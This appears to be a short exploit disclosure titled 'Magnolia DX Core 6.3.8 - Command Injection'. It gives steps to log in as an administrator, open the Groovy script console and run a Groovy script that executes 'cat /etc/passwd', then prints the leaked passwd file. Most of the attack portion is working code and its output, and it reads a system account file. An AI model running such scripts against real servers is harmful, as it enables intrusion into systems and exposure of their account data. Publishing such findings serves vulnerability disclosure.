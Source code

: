 ![Proof-of-Concept Screenshot](https://raw.githubusercontent.com/capture0x/magnolia-rce/main/11.png)
#### Exploit Title: Magnolia DX Core 6.3.8 - Command Injection  
#### Date: 05/16/2025  
#### Exploit Author: tmrswrr  
#### Version: 6.3.8  
#### Vendor home page: https://docs.magnolia-cms.com/home/  
#### Product: https://docs.magnolia-cms.com/product-docs/6.3/releases/release-notes-for-magnolia-cms-6.3.8/  
#### Demo: https://docs.magnolia-cms.com/product-docs/6.3/getting-started-with-magnolia/demo/  

1) Authenticate as an admin:  
   `https://demoauthor.magnolia-cms.com/.magnolia/admincentral`  
2) Navigate to **Development > Groovy > Add Script**  
3) Inject Groovy Script:

```groovy
def process = "cat /etc/passwd".execute()
def output = new StringBuffer()
process.consumeProcessOutput(output, System.err)
process.waitFor()

println "${output}: "
```
Result : 
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash```


